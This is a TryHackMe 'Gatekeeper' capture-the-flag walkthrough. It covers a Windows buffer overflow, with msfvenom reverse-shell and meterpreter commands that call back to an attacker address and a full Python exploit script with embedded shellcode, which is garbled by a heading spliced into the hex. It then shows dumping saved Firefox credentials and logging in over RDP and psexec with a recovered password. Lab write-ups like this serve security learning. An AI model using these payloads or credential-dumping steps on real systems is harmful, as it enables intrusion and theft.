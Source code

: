 *2021-09-06*

*kimm3*

# Walkthrough: Gatekeeper
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/gatekeeper)

## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1
export IP=10.10.117.123
```

(Responds to ping)
## Scans and enumeration
`sudo nmap $IP -p- -A -Pn -v -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20210906114743865.png)

SMB+rdp standard ports, some windows rpc and that 31337 port.

![smb-List](assets/markdown-img-paste-20210906115010800.png)

One available share, Users.

![smb-Users](assets/markdown-img-paste-2021090611500068.png)

Looking around, there's one folder with an executable, and one (copy?) of a home folder. Retrieving both for further enumeration.

```
recurse ON
prompt OFF
mget *
```
![smbgetall](assets/markdown-img-paste-20210906115739799.png)

The service at 31337:

![31337](assets/markdown-img-paste-20210906120239609.png)

Seems to respons 'Hello' to every input and the input appended to it.

Starting up the 'gatekeeper.exe' on a windows box:

![gatekeeper-win](assets/markdown-img-paste-20210906180609187.png)

![gatekeeper-test](assets/markdown-img-paste-20210906180550440.png)

Seems to be the same software.

## Bof prep for gatekeeper.exe
```
```
### Fuzzing
![fuzzed](assets/markdown-img-paste-20210906181459762.png)

![fuzzed1](assets/markdown-img-paste-2021090618151127.png)

It's fuzzable.
### Offset
![offset](assets/markdown-img-paste-20210906181702285.png)

![offset1](assets/markdown-img-paste-20210906181712699.png)

Offset: 146
### Check offset and bad characters
![offset-correct](assets/markdown-img-paste-2021090618193706.png)

We sent all C's so offset is correct.

In Immunity Debugger:
```
!mona bytearray -b "\x00"
!mona compare -f "C:\Program Files(x86)\Immunity Inc\Immunity Debugger\bytearray.bin" -a
```

![0a-badchar](assets/markdown-img-paste-20210906182137932.png)

![dump-esp](assets/markdown-img-paste-20210906182256649.png)

Removing "\x0a" works.

### EIP jmp esp address
![jmpespad](assets/markdown-img-paste-20210907192822107.png)

`!mona jmp -r esp gatekeeper.exe`
### Payload
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.1 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"`

Seems to be working.
## Exploiting target
Generating new payload.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"`

Exploit script:

```
#!/usr/bin/python3

import socket

# socket values
ip = "10.10.15.176"
port = 31337

# sendbuff values
cmd = ""
offset = 146
overflow = "A" * offset
eip_val = "\xc3\x14\x04\x08"
nops = "\x90" * 16
payload = ("\xd9\xc0\xd9\x74\x24\xf4\xbf\xf6\x88\x51\xbe\x5b\x31\xc9\xb1"
"\x52\x83\xc3\x04\x31\x7b\x13\x03\x8d\x9b\xb3\x4b\x8d\x74\xb1"
"\xb4\x6d\x85\xd6\x3d\x88\xb4\xd6\x5a\xd9\xe7\xe6\x29\x8f\x0b"
"\x8c\x7c\x3b\x9f\xe## Privilege escalation0\xa8\x4c\x28\x4e\x8f\x63\xa9\xe3\xf3\xe2"
"\x29\xfe\x27\xc4\x10\x31\x3a\x05\x54\x2c\xb7\x57\x0d\x3a\x6a"
"\x47\x3a\x76\xb7\xec\x70\x96\xbf\x11\xc0\x99\xee\x84\x5a\xc0"
"\x30\x27\x8e\x78\x79\x3f\xd3\x45\x33\xb4\x27\x31\xc2\x1c\x76"
"\xba\x69\x61\xb6\x49\x73\xa6\x71\xb2\x06\xde\x81\x4f\x11\x25"
"\xfb\x8b\x94\xbd\x5b\x5f\x0e\x19\x5d\x8c\xc9\xea\x51\x79\x9d"
"\xb4\x75\x7c\x72\xcf\x82\xf5\x75\x1f\x03\x4d\x52\xbb\x4f\x15"
"\xfb\x9a\x35\xf8\x04\xfc\x95\xa5\xa0\x77\x3b\xb1\xd8\xda\x54"
"\x76\xd1\xe4\xa4\x10\x62\x97\x96\xbf\xd8\x3f\x9b\x48\xc7\xb8"
"\xdc\x62\xbf\x56\x23\x8d\xc0\x7f\xe0\xd9\x90\x17\xc1\x61\x7b"
"\xe7\xee\xb7\x2c\xb7\x40\x68\x8d\x67\x21\xd8\x65\x6d\xae\x07"
"\x95\x8e\x64\x20\x3c\x75\xef\x45\xc9\xa7\x9c\x31\xcb\x47\x62"
"\x79\x42\xa1\x0e\x6d\x03\x7a\xa7\x14\x0e\xf0\x56\xd8\x84\x7d"
"\x58\x52\x2b\x82\x17\x93\x46\x90\xc0\x53\x1d\xca\x47\x6b\x8b"
"\x62\x0b\xfe\x50\x72\x42\xe3\xce\x25\x03\xd5\x06\xa3\xb9\x4c"
"\xb1\xd1\x43\x08\xfa\x51\x98\xe9\x05\x58\x6d\x55\x22\x4a\xab"
"\x56\x6e\x3e\x63\x01\x38\xe8\xc5\xfb\x8a\x42\x9c\x50\x45\x02"
"\x59\x9b\x56\x54\x66\xf6\x20\xb8\xd7\xaf\x74\xc7\xd8\x27\x71"
"\xb0\x04\xd8\x7e\x6b\x8d\xf8\x9c\xb9\xf8\x90\x38\x28\x41\xfd"
"\xba\x87\x86\xf8\x38\x2d\x77\xff\x21\x44\x72\xbb\xe5\xb5\x0e"
"\xd4\x83\xb9\xbd\xd5\x81")
post = "\r\n"

sendbuffer = cmd + overflow + eip_val + nops + payload + post

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(3)
s.connect((ip, port))
s.send(sendbuffer.encode('latin1'))
```

![usertxt](assets/markdown-img-paste-20210907193449134.png)

## Further enumeration
`systeminfo`

![sysinfo](assets/markdown-img-paste-20210907195011109.png)

`sc queryex type= service | find /i "SERVICE_NAME"`

![service names](assets/markdown-img-paste-20210907194859423.png)

Powershell dosen't seem to be installed. Trying to generate a merp as payload for further enumeration.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"`

![merp](assets/markdown-img-paste-20210907141736341.png)

It works and we can post modules to further enumerate, like installed apps:

![enum-apps](assets/markdown-img-paste-20210907142034962.png)
## Privilege escalation
Since firefox is installed we can see if there's any saved credentials.

![firefoxsearch](assets/markdown-img-paste-20210907142522991.png)

![firefoxcredsinfo](assets/markdown-img-paste-20210907142619872.png)

Dumping the possible credentials.

![firefoxdump](assets/markdown-img-paste-20210907142556546.png)

![firefoxdecrypt](assets/markdown-img-paste-20210907143857915.png)

After retrieving the files we have to rename them back to their original name, then we can run firefox_decrypt. As long as there's no master password we'll get all saved passwords.

Two valid ways to get in as mayor is either via rdp or smb/psexec.

`xfreerdp /v:$IP /u:mayor /p:8CL7O1N78MdrCIsV`

![gatekeeper-rdp-root](assets/markdown-img-paste-20210907144827255.png)

`psexec.py mayor:8CL7O1N78MdrCIsV@$IP`

![gatekeeper-smb-root](assets/markdown-img-paste-20210907145106838.png)
